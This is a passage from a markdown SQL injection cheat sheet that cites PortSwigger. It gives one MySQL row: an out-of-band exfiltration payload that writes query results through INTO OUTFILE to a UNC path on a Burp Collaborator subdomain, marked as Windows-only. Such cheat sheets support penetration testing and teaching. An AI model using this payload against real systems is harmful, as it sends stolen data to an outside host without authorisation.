 | MySQL      | The following technique works on Windows only:<br />`SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |

## Reference

[PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
